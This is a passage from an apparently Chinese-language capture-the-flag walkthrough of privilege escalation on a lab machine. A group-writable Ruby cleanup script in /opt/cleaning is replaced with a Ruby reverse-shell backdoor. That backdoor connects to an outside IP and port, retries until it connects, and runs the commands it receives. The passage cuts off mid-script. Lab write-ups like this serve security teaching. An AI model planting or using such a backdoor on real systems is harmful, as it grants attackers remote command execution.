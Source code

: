 ```Bash
 /bin/sh -c /usr/bin/ruby /root/bundle.rb
```
但是我们好像办法控制这个ruby脚本


再用linpeas.sh检测一下

发现/opt/cleaning目录是属于我们当前用户组的

而且这个目录下面还有文件

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/19.rubies.015.png)

这不得不让我感到有点好奇了

进目录看一下

```Bash
ls -la
total 12
drwxrwxr-x 2 root minnie 4096 Nov  2  2020 .
drwxr-xr-x 3 root root   4096 Nov  2  2020 ..
-rw-r--r-- 1 root root    108 Nov  2  2020 webserver\_upload.rb
```
目录下有一个.rb脚本

```Bash
minnie@rubies:/opt/cleaning$ cat webserver\_upload.rb
require "find"

Find.find("/var/www/html/uploads/") do |file|
  File.delete("#{file}") if file=~/\.php/
end
```
作用就是删掉我们网站uploads目录里面所有的php文件

看这个功能就大概可以猜测到这个文件肯定类似于一个定时任务会每隔一段时间就被执行，只是不知道为什么pspy64没有检测到

既然我们这个用户组有这个目录的权限

那我们可以替换掉这个文件

先删掉，然后创建一个同名的ruby后门

```Bash
#!/usr/bin/env ruby

require 'socket'
require 'open3'

#Set the Remote Host IP
RHOST = "192.168.56.6" 
#Set the Remote Host Port
PORT = "1234"

#Tries to connect every 20 sec until it connects.
begin
sock = TCPSocket.new "#{RHOST}", "#{PORT}"
sock.puts "We are connected!"
rescue
  sleep 20
  retry
end

#Runs the commands you type and sends you back the stdout and stderr.
begin
  while line = sock.gets
    Open3.popen2e("#{line}") do | stdin, stdout\_and\_stderr |
              IO.copy\_stream(stdout\_and\_stderr, sock)
              end  
```